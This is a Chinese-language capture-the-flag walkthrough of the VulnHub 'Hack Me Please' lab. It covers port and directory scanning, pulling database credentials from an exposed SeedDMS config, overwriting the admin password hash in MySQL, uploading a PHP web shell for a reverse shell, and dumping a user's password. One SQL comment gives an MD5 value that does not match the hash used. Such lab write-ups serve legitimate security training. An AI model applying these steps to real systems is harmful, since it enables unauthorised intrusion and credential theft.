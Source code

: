 # Hack Me Please

> https://download.vulnhub.com/hackmeplease/Hack_Me_Please.rar

靶场IP：`192.168.32.226`

扫描对外端口服务

```
┌──(root💀kali)-[~]
└─# nmap -p 1-65535 -sV  192.168.32.226                                                                                                                                                                                                                         
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-11 04:54 EDT
Nmap scan report for 192.168.32.226
Host is up (0.0010s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
3306/tcp  open  mysql   MySQL 8.0.25-0ubuntu0.20.04.1
33060/tcp open  mysqlx?

```

访问80端口服务

![image-20220911170000473](../../.gitbook/assets/image-20220911170000473.png)

爆破目录，没有发现任何有用的目录

```
┌──(root💀kali)-[/tmp]
└─# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.32.226/ 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.32.226/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/11 05:01:50 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 314] [--> http://192.168.32.226/img/]
/css                  (Status: 301) [Size: 314] [--> http://192.168.32.226/css/]
/js                   (Status: 301) [Size: 313] [--> http://192.168.32.226/js/] 
/fonts                (Status: 301) [Size: 316] [--> http://192.168.32.226/fonts/]
/server-status        (Status: 403) [Size: 279]                                   
                                                                                  
===============================================================
2022/09/11 05:02:07 Finished
===============================================================

```

在JS文件找到一个路径：`/seeddms51x/seeddms-5.1.22/`

![image-20220911170536079](../../.gitbook/assets/image-20220911170536079.png)

访问：`/seeddms51x/seeddms-5.1.22/`，发现是`SeedDMS`

![image-20220911170613195](../../.gitbook/assets/image-20220911170613195.png)

再次爆破目录

```
┌──(root💀kali)-[/tmp]
└─# gobuster dir -w /usr/share/wordlists/rockyou.txt   -u http://192.168.32.226/seeddms51x/seeddms-5.1.22/ -edrf  -x php,html,cgi
```

使用 curl 下载文件并在其中寻找数据库配置

```sh
┌──(root💀kali)-[/tmp]
└─# curl http://192.168.32.226/seeddms51x/conf/settings.xml -sL | grep -i db                                                     

       - dbDriver: DB-Driver used by adodb (see adodb-readme)
       - dbHostname: DB-Server
       - dbDatabase: database where the tables for seeddms are stored (optional - see adodb-readme)
       - dbUser: username for database-access
       - dbPass: password for database-access
    <database dbDriver="mysql" dbHostname="localhost" dbDatabase="seeddms" dbUser="seeddms" dbPass="seeddms" doNotCheckVersion="false">
       - extraPath: Path to addtional software. This is the directory containing additional software like the adodb directory, or the pear Log package. This path will be added to the php include path

```

使用上述步骤中的凭据登录 MySQL

```
mysql -u seeddms -pseeddms -D seeddms --silent -h 192.168.32.226
```

在那里，我发现了两个表，其中包含**用户**字符串 `users`和`tblUsers`. 由于我无法破解密码，所以我更新了管理员用户的密码

![image-20220911171430692](../../.gitbook/assets/image-20220911171430692.png)

使用**admin:test**凭据以管理员身份成功登录应用程序

```
-- md5("test") = d8e8fca2dc0f896fd7cb4cb0031ba249
UPDATE tblUsers set pwd='098f6bcd4621d373cade4e832627b4f6' where login='admin';
```

![image-20220911171901787](../../.gitbook/assets/image-20220911171901787.png)

在搜索漏洞利用时，我发现这个应用程序的当前版本容易被任意文件上传。这是一个好的开始，我可以上传我的 web shell 并获得反向 Meterpreter

> https://www.exploit-db.com/exploits/47022

首先，我们必须通过导航到"添加文档"菜单来上传 shell。接下来，我们必须浏览 PHP 文件并上传它。这会给我们一个空白页。但是，返回仪表板后，我们会看到一个文件已经上传。

![image-20220911172238333](../../.gitbook/assets/image-20220911172238333.png)

![image-20220911172349781](../../.gitbook/assets/image-20220911172349781.png)

访问反弹shell：`http://192.168.32.226/seeddms51x/data/1048576/4/1.php`

![image-20220911172639310](../../.gitbook/assets/image-20220911172639310.png)

查看密码文件

![image-20220911172705555](../../.gitbook/assets/image-20220911172705555.png)

我们已经从数据库中获得了`saket`用户的密码。

```
MySQL [seeddms]> select * from users;
Employee_id     Employee_first_name     Employee_last_name      Employee_passwd
1       saket   saurav  Saket@#$1337
```

![image-20220911173036518](../../.gitbook/assets/image-20220911173036518.png)
